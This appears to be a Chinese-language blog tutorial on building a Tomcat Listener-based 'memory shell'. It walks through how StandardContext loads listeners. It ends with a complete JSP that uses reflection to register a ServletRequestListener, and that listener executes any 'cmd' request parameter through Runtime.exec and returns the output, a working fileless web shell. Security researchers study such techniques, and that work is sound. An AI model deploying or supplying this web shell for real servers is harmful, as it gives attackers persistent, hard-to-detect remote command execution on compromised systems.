









## 概述

Listener是Java Web App中的一种事件监听机制，用于监听Web应用程序中产生的事件，例如，在`ServletContext`初始化完成后，会触发`contextInitialized`事件，实现了`ServletContextListener`接口的Listener就可以接收到事件通知，可以在内部做一些初始化工作，如加载配置文件，初始化数据库连接池等。

 简单来说Listener（监听器）就是一个实现特定接口的普通java程序，这个程序专门用于监听另一个java对象的方法调用或属性改变，当被监听对象发生上述事件后，监听器某个方法将立即被执行。Listener常用于GUI应用程序中，我们的内存马主要涉及到的是**ServletRequestListener**(由于其在每次请求中都会触发)

### 补充

在Java WEB中，三组件的执行顺序是Listener -> Filter -> Servlet。学习的时候不知道，先学的Servlet内存马，导致对三组件理解不是很深，后边会优化Servlet内存马的博客，大家见谅。

## Listener示例

创建以下类，继承ServletRequestListener，然后实现两个方法`requestDestroyed`以及`requestInitialized`，

```java
@WebListener
// 这里可以直接使用WebListener，也可以在web.xml进行配置
public class ListenerShell implements ServletRequestListener {
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("requestDestroyed......");
    }

    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("requestInitialized......");
    }
}
```

如果不使用注解方式，可以在web.xml中增加配置：

```xml
<listener>
    <listener-class>org.example.memoryshell.ListenerShell</listener-class>
</listener>
```

如图：



在ListenerShell的class处还有`requestDestroyed`、`requestInitialized`处打断点，随后启动项目



可以看到class处断点被命中，然后跟踪左下角的堆栈信息，可以看到前边是调用了StandardContext.listenerStart()方法过来的，然后我们看一下这个方法是干嘛的。



这块的代码看起来是调用了`findApplicationListeners`把所有的listeners查出来，然后创建对应的listener实例。



其实applicationListeners的定义居然是一个List<String>，嗯？web.xml中配置的不就是一个类的全路径字符串嘛，打开调试窗口看一下applicationListeners是啥东西



确实，这里就是一个List<String>里边存储的就是所有的Listener，啊 这......

继续往下跟代码，此时拿到的results数组就是Listener的实例对象了，继续往下跟



这一段的逻辑就是，判断这个Listener的实例是否是`ServletContextAttributeListener`、`ServletRequestAttributeListener`、`ServletRequestListener`、`HttpSessionIdListener`、`HttpSessionAttributeListener`中的其中一种，如果是的话就把Listener实例添加到eventListeners中。

以上的逻辑都是配置在web.xml或者是使用了注解的配置下产生的，但是我们该怎么把非这种途径下产生的Listener放进入呢？

注意，最后还有一行语句是eventListeners.addAll，放进去的东西是this.getApplicationEventListeners()，我们看一下对应的方法



其实就是一个List<Object>，然后恰好在StandardContext中还有往这个List<Object>中写入的方法，我们看一下



所以有了这些内容，我们就可以构造基于Listener的恶意代码了。

### 补充1

通过debug我们还可以发现每一次请求都会触发ServletRequestListener.requestInitialized方法，也就是请求过来的时候Listener对执行初始化创建方法requestInitialized，然后具体的监听器逻辑则执行requestDestroyed方法。

## Listener内存马分析

通过上述debug可以得出，Tomcat中的Listener来源于两部分：一是从`web.xml`配置文件中实例化的Listener，这部分我们无法控制；二是`applicationEventListenersList`中的Listener，后者是我们可以控制的。只需向`applicationEventListenersList`中添加恶意Listener，即可实现目标。

实际上，`StandardContext`类中提供了`addApplicationEventListener()`方法，我们可以直接调用该方法，将恶意Listener添加到`applicationEventListenersList`中。

因此，实现内存马的步骤如下：

- 编写并继承一个恶意Listener；
- 获取`StandardContext`实例；
- 调用`StandardContext.addApplicationEventListener()`方法，将恶意Listener添加到监听列表中。

## Listener内存马代码

创建一个listener_shell.jsp，写入以下内容

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%!
    // 定义一个简单的 Servlet 用于执行系统命令
    public class MemShellListener  implements ServletRequestListener{
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            String cmd = req.getParameter("cmd");
            if(cmd == null) return;
            try {
                InputStream in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String out = s.hasNext()?s.next():"";
                Field requestF = req.getClass().getDeclaredField("request");
                requestF.setAccessible(true);
                Request request = (Request)requestF.get(req);
                request.getResponse().getWriter().write(out);
            }catch (Exception ignore){ }
        }
    }

%>
<%
    // 使用反射获取 StandardContext 上下文
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
    Request req = (Request) reqField.get(request);
    StandardContext stdContext = (StandardContext) req.getContext();

    stdContext.addApplicationEventListener(new MemShellListener());
%>
<html>
<head>
    <title>Title</title>
</head>
<body>
    <h1>Hello Listener</h1>
</body>
</html>
```

访问对应的WEB路径，传递calc参数过去，弹出计算器

